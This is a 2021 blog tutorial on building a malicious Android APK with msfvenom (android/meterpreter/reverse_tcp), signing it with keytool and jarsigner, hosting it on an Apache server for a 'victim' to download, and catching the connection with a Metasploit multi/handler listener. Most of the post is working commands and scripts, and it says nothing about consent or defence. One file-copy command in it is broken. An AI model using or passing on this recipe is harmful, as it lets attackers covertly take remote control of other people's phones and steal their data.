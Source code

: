 +++ 
date = "2021-06-03"
title = "Hack an Android device with MSFvenom and Kali Linux"
slug = "Hack an Android device with MSFvenom and Kali Linux"
tags = []
categories = []
series = []
authors = ["Davide Dolce"]
+++

There are different ways and tools to hack an Android device, in this post, I will focus on **MSFvenom** to generate an APK which will be installed on the target device and the **Metasploit console** to set up a listener which will be used to interact with the device through the APK installed. Keep in mind that the payload used is not going to work with every Android version, mostly with the recent ones. The main purpose is to show how create a payload and setup a listener, after that we just need to create a server where the victim will download the virus. I found many other tutorials on Google about this topic but they are extremely old and they don't even tell you the Kali version used. You might think that is not important, but when I was looking to learn how to use MSFvenom, many parameters used were not working. Here is a simple example:

```sh
$ msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4444 R > virus.apk
```

So why this is wrong in the first place ? If we paste this command in our terminal, we get this error:

```sh
Error: No options
```

As you can see something is not correct, more specifically "**R**" is not recognized as a parameter, technically this should create our APK as an output file, but if we check the official documentation on the [Offensive Security website](https://www.offensive-security.com/metasploit-unleashed/msfvenom/), we can clearly see that the correct parameter to use is "**-o**":

!["msfvenom-commands"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/msfvenom-commands.png)

This is just a simple tip to take these tutorials as they are right now, because after one year they could already be outdated, even this tutorial created by me of course. If something is not working, check the [documentation](https://www.offensive-security.com/metasploit-unleashed/).

# Requirements

It should be obvious but these are the tools required:

- [Kali Linux](https://www.kali.org/get-kali/) (the version used is **2021.1**)
- An Android device (if you do not have an Android phone, use a VM or an emulator like [Bluestacks](https://www.bluestacks.com/))

You have already installed Kali Linux but you don't remember the correct version ? No problem, use this command in the terminal:

```sh
$ lsb_release -a
```

And you should get the following output:

```sh
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
```

# Create the payload

Instead of typing 7 different commands in the terminal one by one, we can simply create a shell script to do the job. Open the terminal and use the following command to create a file:

```sh
$ touch createThePayload.sh
```

Make the script created an executable with:

```sh
$ chmod +x createThePayload.sh
```
Copy and paste the following code (of course you have to set your IP and a port like **4444**):

```sh
#!/bin/sh
 
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o virus.apk
 
keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
 
sudo apt-get install default-jdk -y
 
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore virus.apk hacked
 
jarsigner -verify -verbose -certs virus.apk
 
sudo apt-get install zipalign -y
 
zipalign -v 4 virus.apk virus_signed.apk
```

Type **./createThePayload.sh** and hit enter to execute the script, check the output in the terminal to see if everything is correct.

## A quick explanation about the commands used

With **MSFvenom** we set the payload, the host which is our IP, the port and the output as "**virus.apk**". 

The **keytool** command is a key and certificate management utility. We set the keystore file to generate, an alias like **hacked** but you can use what you want just keep in mind this alias when you are using the **jarsigner** command, the algorithm like RSA, the key size, the validity. 

We have to install two packages, **default-jdk** to use the jarsigner in order to sign and verify a Java Archive, **zipalign** which is an archive alignment tool that provides important optimization to Android application (.apk) files. We set the parameter "**-y**" to automatically answer with "yes" to the prompt in the terminal. We need to sign a certificate because Android mobile devices are not allowed to install apps without the appropriately signed certificate. Android devices only install signed .apk files.

# Setup the server

Now to download the APK on a target machine, we could use a server with **Apache**, from here we just need to go the correct url, which is something like "**192.168.1.2/virus_signed.apk**". In order to move the APK created by the script in "**/var/www/html**", we need root permissions. Besides using a command like:

```sh
$ sudo virus_signed.apk /var/www/html/virus_signed.apk
```

You could also use the following command when you know you will be running various commands that need root access and don't want to run each of them with sudo:

```sh
$ sudo -i
```

Check if the **apache2** service is running with:

```sh
$ service apache2 status
```

If you get the following output:

```sh
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: https://httpd.apache.org/docs/2.4/
```

Start the service with:

```sh
$ sudo service apache2 start
```

If we open Firefox and type the IP of our machine (you can get the IP with the terminal by typing **ifconfig**), we get the Debian Page:

!["it-works"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/it-works.png)

And if we search our apk file in the website directory, we can download it:

!["download-apk"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/download-apk.png)

# Setup the listener

And now we have to set our listener with the **msfconsole**, we set the exploit, the payload and the host. The port is already set as 4444 but you change it. After that we will run it and we will download the apk on a mobile device or an emulator, in my case I used my phone. Follow these steps to set the listener:

1. Start the **msfconsole**:

```sh
$ msfconsole
```

2. When the console is ready, type this command (it should be obvious but don't copy "**msf >**" in the terminal):

```sh
msf > use exploit/multi/handler
```

3. Set the host:

```sh
msf > set lhost TypeYourIPHere
```

4. Set the payload:

```sh
msf > set payload android/meterpreter/reverse_tcp
```

5. Run the exploit:

```sh
msf > run
```

Download the apk on the phone, you need to make sure that your Kali machine and your Android device are on the same network.

# Let's test some commands

Some commands will not work, but the main purpose of this video is to show how to make this stuff work, you can always change the payload or even make your own payload. Here is a quick demo:

{{< rawhtml >}}
<style>
.video-container{
width: 100%;
max-width: 800px;
margin: 0 auto; 
}
.video-responsive{
    overflow:hidden;
    padding-bottom:56.25%;
    position:relative;
    height:0;
}
.video-responsive iframe{
    left:0;
    top:0;
    height:100%;
    width:100%;
    position:absolute;
}
</style>
<div class="video-container">
  <div class="video-responsive">
<iframe src="https://player.vimeo.com/video/559419552" width="700" height="564" frameborder="0" allow="autoplay; fullscreen" allowfullscreen></iframe>
  </div>
</div>
{{< /rawhtml >}}

# TLDR

With this post you should be able to create a payload for Android, setup a server and a listener to make everything work perfectly. As you can see in the demo, the antivirus is preventing us from installing the APK, in some cases it can also close the connection to our Kali machine. There are other cases where the connection will be closed, unfortunately there isn't a single solution so you will need to try different approaches. Try to check if the architecture used to create the APK is the same used by Android and of course if the antivirus is preventing the payload to work correctly.
